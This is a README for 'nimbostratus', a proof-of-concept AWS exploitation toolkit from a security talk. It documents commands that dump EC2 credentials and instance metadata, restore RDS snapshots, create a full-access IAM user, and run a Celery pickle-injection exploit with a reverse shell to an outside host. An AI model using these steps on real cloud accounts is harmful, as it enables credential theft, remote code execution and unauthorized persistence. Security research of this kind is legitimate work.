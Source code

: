 Nimbostratus
============

Tools for fingerprinting and exploiting Amazon cloud infrastructures. These tools are a PoC
which I developed for my "Pivoting in Amazon clouds" talk, developed using the great 
[boto](https://github.com/boto/boto) library for accessing Amazon's API.

Feel free to report bugs, fork and send pull-requests. You can also drop me a line at
[@w3af](https://twitter.com/w3af).

Installation
============

```bash
git clone git@github.com:andresriancho/nimbostratus.git
cd nimbostratus
pip install -r requirements.txt
```


Usage
=====

Providing AWS credentials
-------------------------

Some `nimbostratus` sub-commands require you to provide AWS credentials. They are
provided using the following command line arguments:

 * `--access-key`
 * `--secret-key`
 * `--token` , which is only used when the credentials were extracted from the instance profile.

Dump credentials
----------------

Identify the credentials available in this host and prints them out to the console.
This is usually the first command to run after gaining access to an EC2 instance.

```console
$ nimbostratus dump-credentials
...
```

Once you've got the credentials from an EC2 instance you've exploited, you can continue to work from any other
host with internet access (remember: EC2 instances are in many cases spawned for a specific work and then terminated).

*IMPORTANT*: This will extract information from `boto`'s credential configuration sources
and from the instance meta-data. If the system uses other libraries to connect to AWS
the credentials won't be dumped.


Dump permissions
----------------

This tool will dump all permissions for the provided credentials. This tool is commonly used
right after `dump-credentials` to know which permissions are available for you.

```console
$ nimbostratus dump-permissions --access-key=... --secret-key=...
...
```

Dump instance meta-data
-----------------------

All EC2 instances have [meta-data](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/AESDG-chapter-instancedata.html)
which is accessible via [http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/). This
tool will extract all the important information from the metadata and show it to you.

Keep in mind that each EC2 instance has his own `http://169.254.169.254/` meta-data
provider and running this command on different instances will yield different results.

```console
$ nimbostratus dump-ec2-metadata
...
```

Create DB snapshot
------------------

In some cases you've got Amazon credentials which allow you to access the [RDS](http://aws.amazon.com/rds/) API but
don't have any access to the database itself (MySQL user). This tool allows you to access the information stored in
that database by creating a snapshot and restoring it.

```console
$ nimbostratus snapshot-rds --access-key=... --secret-key=... --password=changeme --rds-name==db_name
...
```

Inject raw Celery message
-------------------------

Celery warns developers about the [insecure pickle](http://docs.celeryproject.org/en/latest/userguide/security.html#serializers)
serialization method, but of course you'll find deployments like this in real life. This tool will check if the instance
where this tool is being run has access to SQS, if that SQS has a Celery queue, verify that the Queue is using pickle and
finally inject a raw message that will execute arbitrary commands when un-pickled.

```console
$ nimbostratus celery-pickle-exploit --access-key=... --secret-key=... --queue-name=celery \
                                     --region=ap-southeast-1 --reverse=1.2.3.4:4000
...
```

Create new user
---------------

If you've got credentials which allow you to create a new user using [IAM](http://aws.amazon.com/iam/) this tool will
create it (with permissions to access all Amazon resources) and return API key and secret.

```console
$ nimbostratus create-iam-user --access-key=... --secret-key=...
...
```



What's a `nimbostratus` anyways?
================================

[nimbostratus](http://en.wikipedia.org/wiki/Nimbostratus_cloud) is a type of cloud, if you ever started a project you know how hard it is to name it... so I just chose something that sounded "cool" and was "cloud-related".

